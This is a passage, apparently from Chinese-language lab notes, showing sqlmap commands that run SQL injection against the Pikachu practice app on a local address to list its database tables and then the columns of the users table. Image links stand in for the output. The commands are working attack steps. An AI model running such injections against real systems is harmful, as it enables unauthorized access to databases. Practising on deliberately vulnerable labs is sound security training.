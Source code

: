 获取表名：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_id.php" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" --data "id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --tables
```

![image-20250225123845571](../../_media/image-20250225123845571.png)



获取列名：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_id.php" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" --data "id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns
```

![image-20250225123943292](../../_media/image-20250225123943292.png)

